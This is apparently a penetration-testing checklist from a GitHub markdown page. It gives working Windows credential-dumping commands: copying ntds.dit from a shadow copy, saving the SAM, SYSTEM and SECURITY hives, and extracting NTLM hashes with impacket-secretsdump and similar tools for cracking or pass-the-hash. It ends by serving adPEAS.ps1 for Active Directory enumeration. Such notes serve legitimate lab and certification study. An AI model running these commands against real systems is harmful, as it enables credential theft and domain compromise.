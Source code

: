 - [ ] Extract the NTDS database to the C drive on the Target Machine
```powershell
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\Tools\ntds.dit.bak
```

- [ ] Extract the SYSTEM hive from the Windows registry on the Target Machine
```powershell
reg.exe save hklm\system c:\system.bak
```

- [ ] Transfer the files back to your Kali Machine

- [ ] Extract NTLM hashes and Kerberos keys for every AD user on your Kali Machine
```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

- [ ] Crack the hashes on your Kali Machine or use for PtH
### SAM and SYSTEM registry hives

- [ ] Get SYSTEM and SAM hives via registry on the Target Machine
```powershell
reg save hklm\system SYSTEM
reg save hklm\sam SAM
reg save hklm\security SECURITY
```

- [ ] Alternatively, get SYSTEM and SAM hives directly on the Target Machine
```
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SECURITY
```
- Usually doesn't work because its being used

- [ ] Transfer the files back to your Kali Machine

- [ ] Extract NTLM hashes for local users on your Kali Machine
```bash
/usr/share/creddump7/pwdump.py SYSTEM SAM
```
```bash
impacket-secretsdump -system SYSTEM LOCAL -sam SAM 
```
```bash
samdump2 SYSTEM SAM
```
- samdump2 usually doesnt work and gives the same hash for every user

- [ ] Crack the hashes on your Kali Machine or use for PtH

# Automated Active Directory Enumeration
## adPEAS.ps1

- [ ] Download and serve `adPEAS.ps1` on your Kali Machine
```bash
wget https://github.com/61106960/adPEAS/blob/main/adPEAS.ps1
python3 -m http.server 80
```
